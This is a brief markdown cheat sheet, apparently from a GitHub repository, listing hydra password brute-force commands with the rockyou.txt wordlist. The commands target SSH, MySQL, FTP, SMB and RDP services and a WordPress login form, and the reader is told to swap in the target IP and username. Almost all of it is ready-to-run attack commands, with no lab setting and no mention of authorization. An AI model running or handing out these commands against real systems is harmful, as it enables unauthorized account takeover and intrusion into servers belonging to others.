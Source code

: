 # Brute Force: Passwords Cracking
- If any server is running, you can use hydra to crack passwords. 
- Make sure the rockyou.txt file exists on the location and that you have right username and ip (replace them)

### cracking ssh
```shell 
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP ssh
```

### crack mysql database server
```shell
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP mysql
```

### crack ftp server
```shell
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP ftp
```

### crack smb server
```shell
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP smb
```

### crack wordpress
```shell
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

### crack rdp (windows screen sharing)
```shell
hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
```
